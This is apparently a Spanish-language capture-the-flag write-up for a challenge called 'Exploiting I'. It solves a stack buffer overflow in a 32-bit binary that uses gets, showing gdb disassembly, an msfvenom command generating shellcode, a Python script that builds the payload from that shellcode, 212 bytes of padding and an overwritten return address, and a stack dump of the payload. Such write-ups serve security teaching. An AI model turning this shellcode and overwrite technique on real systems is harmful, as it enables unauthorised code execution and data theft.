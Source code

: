 ##Exploiting I

###Enunciado 

Bienvenido al reto 1 de exploiting.

El reto se encuentra en /retos/exploiting1 y la flag en /flags/flag1.

Si necesitas usar un directorio con permisos de escritura puedes usar

tu propia carpeta en /tmp. El comando mktemp -d es tu amigo.

A tu disposición tienes gdb y radare2, ademas de python, ruby y perl.

Por favor, no abuses del sistema. Máximo dos conexiones SSH por persona.
Si tienes dudas recuerda que está el grupo de Telegram y el correo.Bienvenido al reto 1 de exploiting.
El reto se encuentra en /retos/exploiting1 y la flag en /flags/flag1.
Si necesitas usar un directorio con permisos de escritura puedes usartu propia carpeta en /tmp. El comando mktemp -d es tu amigo.
A tu disposición tienes gdb y radare2, ademas de python,ruby y perl.

Por favor, no abuses del sistema. Máximo dos conexiones SSH por persona.

Si tienes dudas recuerda que está el grupo de Telegram y el correo.


###Solución

Ejecutamos el programa y ya podemos intuir que se va a tratar de un clásico buffer overflow

```
I have no name!@yuki:/tmp/tmp.7t5nus5kAJ$ /retos/exploiting1
name is at [0xffffd528]
ksdfjjdfkl
ksdfjjdfkl
I have no name!@yuki:/tmp/tmp.7t5nus5kAJ$
```

¡Y encima te dicen la posición dónde esta la variable! En esta dirección es dónde colocaremos nuestro shellcode para que se ejecute.
El binario no tiene ningún tipo de protección de pila, ni ASLR, nada de nada.

Calculamos el offset con "pattern_create.rb" y "pattern_offset.rb" de metasploit y nos dice que el offset es de 212 bytes.

Analizando el ensamblador del programa nos encontramos con las funciones "main" y "hello"

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484ab <+0>:     lea    ecx,[esp+0x4]
   0x080484af <+4>:     and    esp,0xfffffff0
   0x080484b2 <+7>:     push   DWORD PTR [ecx-0x4]
   0x080484b5 <+10>:    push   ebp
   0x080484b6 <+11>:    mov    ebp,esp
   0x080484b8 <+13>:    push   ecx
   0x080484b9 <+14>:    sub    esp,0x4
   0x080484bc <+17>:    call   0x80484cf <hello>
   0x080484c1 <+22>:    mov    eax,0x0
   0x080484c6 <+27>:    add    esp,0x4
   0x080484c9 <+30>:    pop    ecx
   0x080484ca <+31>:    pop    ebp
   0x080484cb <+32>:    lea    esp,[ecx-0x4]
   0x080484ce <+35>:    ret
End of assembler dump.

(gdb) disas hello
Dump of assembler code for function hello:
   0x080484cf <+0>:     push   ebp
   0x080484d0 <+1>:     mov    ebp,esp
   0x080484d2 <+3>:     sub    esp,0xd8
   0x080484d8 <+9>:     sub    esp,0x8
   0x080484db <+12>:    lea    eax,[ebp-0xd0]
   0x080484e1 <+18>:    push   eax
   0x080484e2 <+19>:    push   0x80485c0
   0x080484e7 <+24>:    call   0x8048350 <printf@plt>
   0x080484ec <+29>:    add    esp,0x10
   0x080484ef <+32>:    mov    eax,ds:0x8049820
   0x080484f4 <+37>:    sub    esp,0xc
   0x080484f7 <+40>:    push   eax
   0x080484f8 <+41>:    call   0x8048360 <fflush@plt>
   0x080484fd <+46>:    add    esp,0x10
   0x08048500 <+49>:    sub    esp,0xc
   0x08048503 <+52>:    lea    eax,[ebp-0xd0]
   0x08048509 <+58>:    push   eax
   0x0804850a <+59>:    call   0x8048370 <gets@plt>
   0x0804850f <+64>:    add    esp,0x10
   0x08048512 <+67>:    sub    esp,0xc
   0x08048515 <+70>:    lea    eax,[ebp-0xd0]
   0x0804851b <+76>:    push   eax
   0x0804851c <+77>:    call   0x8048380 <puts@plt>
   0x08048521 <+82>:    add    esp,0x10
   0x08048524 <+85>:    leave
   0x08048525 <+86>:    ret
End of assembler dump.
```



msfvenom -p linux/x86/read_file PATH=/flags/flag1 -n 16 -b '\x00\x20\x0d\x0a' -f python

#!/usr/bin/env python

buf =""

buf += "\xd6\x91\x43\x93\x2f\xfc\x43\xd6\x48\xd6\xd6\x37\x9f"
buf += "\xfc\x3f\x49\xbd\x15\xa0\x41\xf4\xda\xcf\xd9\x74\x24"
buf += "\xf4\x5a\x31\xc9\xb1\x13\x31\x6a\x14\x03\x6a\x14\x83"
buf += "\xea\xfc\xf7\x55\xaa\xc2\x4f\x90\x2d\x2b\xaf\xc0\x1c"
buf += "\xe2\x62\x76\xd7\x37\xc4\x74\xe8\xb7\x34\xf2\x0f\x3e"
buf += "\xcd\xbe\xd0\x51\x2d\xbf\x1d\xd1\xa4\x7d\x25\xd6\xb6"
buf += "\x81\x56\x6c\xb7\x81\x56\x92\x7a\x01\xee\x93\x84\x02"
buf += "\x0f\x2f\x84\x02\x0f\x4f\x49\x82\xe7\x8a\xae\x7c\x08"
buf += "\x3b\x36\xef\x96\x23\xc5\xc0\x3e\xc0\x48\x78\x8e\x18"

#offset 212
buf += "A" * (212 - len(buf))

#0xffffd528
buf += "\x28\xd5\xff\xff"

print buf



(gdb) br *0x8048525
Note: breakpoint 1 also set at pc 0x8048525.
Breakpoint 2 at 0x8048525



Aqui la pila con el payload: (con gdb donde empieza el payload cambia a 0xffffd548)

0xffffd53c:     0xf7fd52b8      0x00000000      0x00000000      0x90909090
0xffffd54c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd55c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd56c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd57c:     0x90909090      0x90909090      0x90909090      0x934391d6
0xffffd58c:     0xd643fc2f      0x37d6d648      0x493ffc9f      0x41a015bd
0xffffd59c:     0xd9cfdaf4      0x5af42474      0x13b1c931      0x03146a31
0xffffd5ac:     0xea83146a      0xaa55f7fc      0x2d904fc2      0x1cc0af2b
0xffffd5bc:     0xd77662e2      0xe874c437      0x0ff234b7      0xd0becd3e
0xffffd5cc:     0x1dbf2d51      0x257da4d1      0x5681b6d6      0x5681b76c
0xffffd5dc:     0xee017a92      0x0f028493      0x0f02842f      0xe782494f
0xffffd5ec:     0x087cae8a      0x96ef363b      0x3ec0c523      0x8e7848c0
0xffffd5fc:     0x41414118      0x41414141      0x41414141      0x41414141
0xffffd60c:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd61c:     0xffffd548      0xf7fd1300      0xffffd640      0x00000000
0xffffd62c:     0xf7e39637      0xf7fd1000      0xf7fd1000      0x00000000

